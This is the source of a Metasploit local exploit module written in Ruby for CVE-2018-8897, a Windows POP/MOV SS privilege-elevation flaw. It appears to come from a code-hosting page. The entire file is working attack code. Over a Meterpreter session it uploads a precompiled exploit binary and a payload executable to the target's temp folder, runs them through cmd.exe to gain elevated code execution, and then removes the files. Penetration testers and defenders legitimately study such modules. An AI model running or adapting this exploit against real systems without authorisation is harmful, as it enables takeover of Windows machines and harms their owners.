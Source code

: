 EXP
---

    ##
    # This module requires Metasploit: https://metasploit.com/download
    # Current source: https://github.com/rapid7/metasploit-framework
    ##

    require 'msf/core/post/common'
    require 'msf/core/post/file'
    require 'msf/core/post/windows/priv'
    require 'msf/core/post/windows/registry'
    require 'msf/core/exploit/exe'

    class MetasploitModule < Msf::Exploit::Local
      Rank = ExcellentRanking

      include Msf::Post::Common
      include Msf::Post::File
      include Msf::Post::Windows::Priv
      include Msf::Exploit::EXE

      def initialize(info = {})
        super(update_info(info,
          'Name'           => 'Microsoft Windows POP/MOV SS Local Privilege Elevation Vulnerability',
          'Description'    => %q{
            This module exploits a vulnerability in a statement in the system programming guide
            of the Intel 64 and IA-32 architectures software developer's manual being mishandled
            in various operating system kerneles, resulting in unexpected behavior for #DB
            excpetions that are deferred by MOV SS or POP SS.

            This module will upload the pre-compiled exploit and use it to execute the final
            payload in order to gain remote code execution.
          },
          'License'        => MSF_LICENSE,
          'Author'         =>
            [
              'Nick Peterson',        # Original discovery (@nickeverdox)
              'Nemanja Mulasmajic',   # Original discovery (@0xNemi)
              'Can BAPlA1/4k <can1357>',  # PoC
              'bwatters-r7'           # msf module
            ],
          'Platform'       => [ 'win' ],
          'SessionTypes'   => [ 'meterpreter' ],
          'Targets'        =>
            [
              [ 'Windows x64', { 'Arch' => ARCH_X64 } ]
            ],
          'DefaultTarget'  => 0,
          'DisclosureDate' => 'May 08 2018',
          'References'     =>
            [
              ['CVE', '2018-8897'],
              ['EDB', '44697'],
              ['BID', '104071'],
              ['URL', 'https://github.com/can1357/CVE-2018-8897/'],
              ['URL', 'https://blog.can.ac/2018/05/11/arbitrary-code-execution-at-ring-0-using-cve-2018-8897/']
            ],
          'DefaultOptions' =>
            {
              'DisablePayloadHandler' => 'False'
            }
        ))

        register_options([
          OptString.new('EXPLOIT_NAME',
            [false, 'The filename to use for the exploit binary (%RAND% by default).', nil]),
          OptString.new('PAYLOAD_NAME',
            [false, 'The filename for the payload to be used on the target host (%RAND%.exe by default).', nil]),
          OptString.new('PATH',
            [false, 'Path to write binaries (%TEMP% by default).', nil]),
          OptInt.new('EXECUTE_DELAY',
            [false, 'The number of seconds to delay before executing the exploit', 3])
        ])
      end

      def setup
        super
        @exploit_name = datastore['EXPLOIT_NAME'] || Rex::Text.rand_text_alpha((rand(8)+6))
        @payload_name = datastore['PAYLOAD_NAME'] || Rex::Text.rand_text_alpha((rand(8)+6))
        @exploit_name = "#{exploit_name}.exe" unless exploit_name.match(/\.exe$/i)
        @payload_name = "#{payload_name}.exe" unless payload_name.match(/\.exe$/i)
        @temp_path = datastore['PATH'] || session.sys.config.getenv('TEMP')
        @payload_path = "#{temp_path}\\#{payload_name}"
        @exploit_path = "#{temp_path}\\#{exploit_name}"
        @payload_exe = generate_payload_exe
      end

      def validate_active_host
        begin
          host = session.session_host
          print_status("Attempting to PrivEsc on #{sysinfo['Computer']} via session ID: #{datastore['SESSION']}")
        rescue Rex::Post::Meterpreter::RequestError => e
          elog("#{e.class} #{e.message}\n#{e.backtrace * "\n"}")
          raise Msf::Exploit::Failed, 'Could not connect to session'
        end
      end

      def validate_remote_path(path)
        unless directory?(path)
          fail_with(Failure::Unreachable, "#{path} does not exist on the target")
        end
      end

      def validate_target
        if sysinfo['Architecture'] == ARCH_X86
          fail_with(Failure::NoTarget, 'Exploit code is 64-bit only')
        end
        if sysinfo['OS'] =~ /XP/
          fail_with(Failure::Unknown, 'The exploit binary does not support Windows XP')
        end
      end

      def ensure_clean_destination(path)
        if file?(path)
          print_status("#{path} already exists on the target. Deleting...")
          begin
            file_rm(path)
            print_status("Deleted #{path}")
          rescue Rex::Post::Meterpreter::RequestError => e
            elog("#{e.class} #{e.message}\n#{e.backtrace * "\n"}")
            print_error("Unable to delete #{path}")
          end
        end
      end

      def ensure_clean_exploit_destination
        ensure_clean_destination(exploit_path)
      end

      def ensure_clean_payload_destination
        ensure_clean_destination(payload_path)
      end

      def upload_exploit
        local_exploit_path = ::File.join(Msf::Config.data_directory, 'exploits', 'cve-2018-8897-exe', 'cve-2018-8897-exe.exe')
        upload_file(exploit_path, local_exploit_path)
        print_status("Exploit uploaded on #{sysinfo['Computer']} to #{exploit_path}")
      end

      def upload_payload
        write_file(payload_path, payload_exe)
        print_status("Payload (#{payload_exe.length} bytes) uploaded on #{sysinfo['Computer']} to #{payload_path}")
      end

      def execute_exploit
        sleep(datastore['EXECUTE_DELAY'])
        print_status("Running exploit #{exploit_path} with payload #{payload_path}")
        output = cmd_exec('cmd.exe', "/c #{exploit_path} #{payload_path}")
        vprint_status(output)
      end

      def exploit
        begin
          validate_active_host
          validate_target
          validate_remote_path(temp_path)
          ensure_clean_exploit_destination
          ensure_clean_payload_destination
          upload_exploit
          upload_payload
          execute_exploit
        rescue Rex::Post::Meterpreter::RequestError => e
          elog("#{e.class} #{e.message}\n#{e.backtrace * "\n"}")
          print_error(e.message)
          ensure_clean_exploit_destination
          ensure_clean_payload_destination
        end
      end

      attr_reader :exploit_name
      attr_reader :payload_name
      attr_reader :payload_exe
      attr_reader :temp_path
      attr_reader :payload_path
      attr_reader :exploit_path
    end